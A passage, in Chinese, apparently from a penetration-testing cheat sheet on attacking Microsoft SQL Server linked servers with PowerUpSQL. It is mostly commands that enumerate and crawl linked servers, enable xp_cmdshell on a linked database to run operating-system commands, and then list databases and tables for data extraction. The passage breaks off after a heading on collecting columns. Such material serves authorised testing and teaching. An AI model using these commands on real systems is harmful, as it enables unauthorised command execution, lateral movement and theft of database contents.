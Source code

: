 有效链接将由结果中的DatabaseLinkName字段标识


```ps1
Get-SQLInstanceDomain | Get-SQLServerLink -Verbose
select * from master..sysservers
```

### 为特定实例爬取链接

```ps1
Get-SQLServerLinkCrawl -Instance "<DBSERVERNAME\DBInstance>" -Verbose
select * from openquery("<instance>",'select * from openquery("<instance2>",''select * from master..sysservers'')')
```

### 查询链接数据库的版本


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DBSERVERNAME\DBInstance>`",'select @@version')" -Verbose
```

### 在链接数据库上执行过程

```ps1
SQL> EXECUTE('EXEC sp_configure ''show advanced options'',1') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('EXEC sp_configure ''xp_cmdshell'',1;') at "linked.database.local";
SQL> EXECUTE('RECONFIGURE') at "linked.database.local";
SQL> EXECUTE('exec xp_cmdshell whoami') at "linked.database.local";
```

### 确定链接数据库的名称

> tempdb、model和msdb是默认数据库，通常不值得查看。Master也是默认的，但可能包含一些信息，而其他任何自定义数据库绝对值得深入挖掘。结果是DatabaseName，用于后续查询。

```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from sys.databases')" -Verbose
```

### 从选定的链接数据库中确定所有表的名称

> 结果是TableName，用于后续查询。


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select name from <DatabaseNameFromPreviousCommand>.sys.tables')" -Verbose
```

### 收集选定链接表的前5列

> 结果是ColumnName和ColumnValue，用于后续查询。

